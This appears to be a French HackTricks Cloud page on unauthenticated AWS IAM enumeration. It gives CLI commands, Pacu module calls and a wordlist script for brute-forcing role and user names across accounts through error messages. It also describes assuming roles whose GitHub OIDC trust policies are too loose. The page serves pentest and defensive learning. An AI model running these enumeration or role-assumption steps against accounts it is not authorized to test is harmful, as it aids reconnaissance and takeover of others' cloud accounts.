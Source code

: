 # AWS - IAM Énumération non authentifiée

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Énumérer les rôles et noms d'utilisateur dans un compte

### ~~Brute-Force de l'Assume Role~~

{% hint style="danger" %}
**Cette technique ne fonctionne plus** car que le rôle existe ou non, vous obtenez toujours cette erreur :

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Vous pouvez **tester ceci en exécutant** :

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Si vous essayez **d'assumer un rôle pour lequel vous n'avez pas la permission**, AWS affichera une erreur similaire à :
```
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ce message d'erreur indique que le rôle existe, mais que son document de politique d'assomption de rôle ne vous permet pas de l'assumer. En exécutant la même commande, mais en ciblant **un rôle qui n'existe pas**, AWS renverra :
```
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Étonnamment, **ce processus fonctionne entre comptes**. Avec n'importe quel ID de compte AWS valide et une liste de mots bien conçue, vous pouvez énumérer les rôles existants du compte sans restrictions.

Vous pouvez utiliser ce [script pour énumérer les principaux potentiels](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) en abusant de ce problème.

### Politiques de confiance : Forçage brutal des rôles et utilisateurs inter-comptes

Lors de la configuration/mise à jour d'une **politique de confiance de rôle IAM**, vous spécifiez quels **ressources/services AWS peuvent assumer ce rôle** et obtenir des identifiants temporaires.

Lorsque vous enregistrez la politique, si la ressource est **trouvée**, la politique de confiance sera **enregistrée avec succès**, mais si elle n'est **pas trouvée**, alors une **erreur sera générée**, indiquant qu'un principal invalide a été fourni.

{% hint style="warning" %}
Notez que dans cette ressource, vous pourriez spécifier un rôle ou un utilisateur inter-comptes :

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Voici un exemple de politique :
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

C'est l'**erreur** que vous trouverez si vous utilisez un **rôle qui n'existe pas**. Si le rôle **existe**, la politique sera **enregistrée** sans aucune erreur. (L'erreur est pour la mise à jour, mais cela fonctionne également lors de la création)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Vous pouvez automatiser ce processus avec [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Ou en utilisant [Pacu](https://github.com/RhinoSecurityLabs/pacu) :

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Le rôle `admin` utilisé dans l'exemple est un **rôle dans votre compte à être usurpé** par pacu pour créer les politiques nécessaires à l'énumération

### Privesc

Dans le cas où le rôle a été mal configuré et permet à quiconque de l'assumer :

![](<../../../.gitbook/assets/image (35).png>)

L'attaquant pourrait simplement l'assumer.

## Fédération OIDC de tiers

Imaginez que vous parvenez à lire un **workflow Github Actions** qui accède à un **rôle** à l'intérieur d'**AWS**.\
Cette confiance pourrait donner accès à un rôle avec la **politique de confiance** suivante :
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Cette politique de confiance peut être correcte, mais **l'absence de conditions supplémentaires** devrait vous inciter à la méfier.\
C'est parce que le rôle précédent peut être assumé par **N'IMPORTE QUI depuis Github Actions** ! Vous devriez également spécifier dans les conditions d'autres éléments tels que le nom de l'org, le nom du repo, l'env, la branche...

Une autre mauvaise configuration potentielle est d'**ajouter une condition** comme la suivante :
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Notez l'**astérisque** (\*) avant le **deux-points** (:). Vous pouvez créer une organisation telle que **org\_name1** et **assumer le rôle** à partir d'une action Github.

## Références

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)
* [https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/](https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

